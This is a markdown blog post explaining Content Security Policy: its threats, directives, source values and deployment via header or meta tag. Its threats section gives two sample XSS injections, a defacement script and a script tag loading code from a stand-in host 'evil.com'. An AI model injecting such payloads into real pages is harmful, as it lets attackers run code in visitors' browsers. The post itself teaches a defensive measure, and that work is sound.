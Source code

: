 ```yaml
---
title: 🛡️ What is a Content Security Policy (CSP)?
description: A Content Security Policy (CSP) is an added layer of security that helps businesses and security teams mitigate certain types of client-side attacks.
date: 2024-05-19
tags: ['web']
published: true
---
```


## Introduction

Content Security Policy ([CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)) is a browser security mechanism that aims to mitigate Cross-Site Scripting ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)) and some other attacks. It works by restricting the resources (such as scripts and images) that a page can load and restricting whether a page can be framed by other pages.

![Content Security Policy](../img/2024-05-19/content-security-policy.jpg)

To enable CSP, a response needs to include an HTTP response header called `Content-Security-Policy` with a value containing the policy. The policy itself consists of one or more directives, separated by semicolons.

## Threats

### Mitigating cross-site scripting

By preventing the page from executing inline scripts, attacks like injecting

```html
<script>
  document.body.innerHTML = 'defaced'
</script>
```

will not work.

By preventing the page from loading scripts from arbitrary servers, attacks like injecting

```html
<script src="https://evil.com/hacked.js"></script>
```

will not work.

### Mitigating packet sniffing attacks

In addition to restricting the domains from which content can be loaded, the server can specify which protocols are allowed to be used; for example (and ideally, from a security standpoint), a server can specify that all content must be loaded using HTTPS. A complete data transmission security strategy includes not only enforcing HTTPS for data transfer, but also marking all cookies with the `secure` attribute and providing automatic redirects from HTTP pages to their HTTPS counterparts. Sites may also use the `Strict-Transport-Security` HTTP header to ensure that browsers connect to them only over an encrypted channel.

## CSP Directive Reference

This documentation is provided based on the [Content Security Policy Level 2](https://www.w3.org/TR/CSP2/) W3C Recommendation, and the [Content Security Policy Level 3](https://www.w3.org/TR/CSP3/) W3C Working Draft

### Fetch Directives

Fetch directives tell the browser the locations to trust and load resources from. Most fetch directives have a certain [fallback list specified in w3](https://www.w3.org/TR/CSP3/#directive-fallback-list). This list allows for granular control of the source of scripts, images, files, etc.

- `default-src` is a fallback directive for the other fetch directives. Directives that are specified have no inheritance, yet directives that are not specified will fall back to the value of `default-src`. <Tag>CSP Level 1</Tag>
- `script-src` specifies the locations from which a script can be executed from. It is a fallback directive for other script-like directives. <Tag>CSP Level 1</Tag>
  - `script-src-elem` controls the location from which execution of script requests and blocks can occur.
  - `script-src-attr` controls the execution of event handlers.
- `style-src` controls from where styles get applied to a document. This includes `<link>` elements, `@import` rules, and requests originating from a Link HTTP response header field. <Tag>CSP Level 1</Tag>
  - `style-src-elem` controls styles except for inline attributes.
  - `style-src-attr` controls styles attributes.
- `img-src` specifies the URLs that images can be loaded from. <Tag>CSP Level 1</Tag>
- `connect-src` provides control over fetch requests, XHR, eventsource, beacon and websockets connections. <Tag>CSP Level 1</Tag>
- `font-src` specifies which URLs to load fonts from. <Tag>CSP Level 1</Tag>
- `object-src` specifies the URLs from which plugins can be loaded from. <Tag>CSP Level 1</Tag>
- `media-src` specifies the URLs from which video, audio and text track resources can be loaded from. <Tag>CSP Level 1</Tag>
- `child-src` allows the developer to control nested browsing contexts and worker execution contexts. <Tag>CSP Level 2</Tag>
- `prefetch-sr`c specifies the URLs from which resources can be prefetched from. <Tag>CSP Level 3</Tag>
- `manifest-src` specifies the URLs that application manifests may be loaded from. <Tag>CSP Level 3</Tag>

### Document Directives

Document directives instruct the browser about the properties of the document to which the policies will apply to.

- [`sandbox`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/sandbox) restricts a page's actions such as submitting forms. <Tag>CSP Level 1</Tag>
  - Only applies when used with the request header `Content-Security-Policy`.
  - Not specifying a value for the directive activates all of the sandbox restrictions. `Content-Security-Policy: sandbox;`
- `base-uri` specifies the possible URLs that the `<base>` element can use. <Tag>CSP Level 2</Tag>
- `plugin-types` limits the types of resources that can be loaded into the document (e.g. application/pdf). <Tag>CSP Level 2</Tag> 3 rules apply to the affected elements, `<embed>` and `<object>`:
  - The element needs to explicitly declare its type.
  - The element's type needs to match the declared type.
  - The element's resource needs to match the declared type.
  ```HTTP title="EXAMPLE PLUGIN-TYPES POLICY"
  plugin-types application/pdf;
  ```

### Navigation Directives

Navigation directives instruct the browser about the locations that the document can navigate to.

- `form-action` restricts the URLs which the forms can submit to. <Tag>CSP Level 2</Tag>
- `frame-ancestors` restricts the URLs that can embed the requested resource inside of `<frame>`, `<iframe>`, `<object>`, `<embed>`, or `<applet>` elements. <Tag>CSP Level 2</Tag>
  - If this directive is specified in a `<meta>` tag, the directive is ignored.
  - This directive doesn't fallback to the `default-src` directive.
  - `X-Frame-Options` is rendered obsolete by this directive and is ignored by the user agents.
- `navigate-to` restricts the URLs that the document may navigate to by any means. For example when a link is clicked, a form is submitted, or window.location is invoked. If `form-action` is present then this directive is ignored for form submissions. Removed from the CSP 3 Spec.

### Reporting Directives

Reporting directives deliver violations of prevented behaviors to specified locations. These directives serve no purpose on their own and are dependent on other directives.

- `report-to` defines a reporting group name defined by a `Report-To` HTTP response header. <Tag>CSP Level 3</Tag> See the [Reporting API](https://w3c.github.io/reporting/) for more info.
- `report-uri` directive is deprecated in CSP Level 3 in favor of the `report-to` directive, which is a URI that the reports are sent to.

## Source List Reference

| Source Value         | Example                       | Description                                                                                                                                                                |
| -------------------- | ----------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `*`                  | `img-src *`                   | Wildcard, allows any URL except data: blob: filesystem: schemes.                                                                                                           |
| `'none'`             | `object-src 'none'`           | Prevents loading resources from any source.                                                                                                                                |
| `'self'`             | `script-src 'self'`           | Allows loading resources from the same origin (same scheme, host and port).                                                                                                |
| `data:`              | `img-src 'self' data:`        | Allows loading resources via the data scheme (eg Base64 encoded images).                                                                                                   |
| `https:`             | `img-src https:`              | Allows loading resources only over HTTPS on any domain.                                                                                                                    |
| `domain.example.com` | `img-src domain.example.com`  | Allows loading resources from the specified domain name.                                                                                                                   |
| `*.example.com`      | `img-src *.example.com`       | Allows loading resources from any subdomain under example.com.                                                                                                             |
| `'unsafe-inline'`    | `script-src 'unsafe-inline'`  | Allows use of inline source elements such as style attribute, onclick, or script tag bodies (depends on the context of the source it is applied to) and `javascript:` URIs |
| `'unsafe-eval'`      | `script-src 'unsafe-eval'`    | Allows unsafe dynamic code evaluation such as JavaScript `eval()`                                                                                                          |
| `'nonce-'`           | `script-src 'nonce-rAnd0m'`   | Allows an inline script or CSS to execute if the script (eg: `<script nonce="rAnd0m">`) tag contains a nonce attribute matching the nonce specified in the CSP header.     |
| `'sha256-'`          | `script-src 'sha256-xyz...'`  | Allows an inline script or CSS to execute if its hash matches the specified hash in the header.                                                                            |
| `'strict-dynamic'`   | `script-src 'strict-dynamic'` | Enables an allowed script to load additional scripts via non-"parser-inserted" script elements (for example `document.createElement('script');` is allowed).               |

## Implementing Content Security Policy

You can deploy a CSP as a HTTP response header or an HTML meta tag.

To configure your web server to return the HTTP Content-Security-Policy header, use:

```HTTP
Content-Security-Policy: [directive] [resource type]
```

To use the HTML `<meta>` element to configure a policy, it looks like this:

```html
<meta
  http-equiv="Content-Security-Policy"
  content="[directive] [resource type]"
/>
```

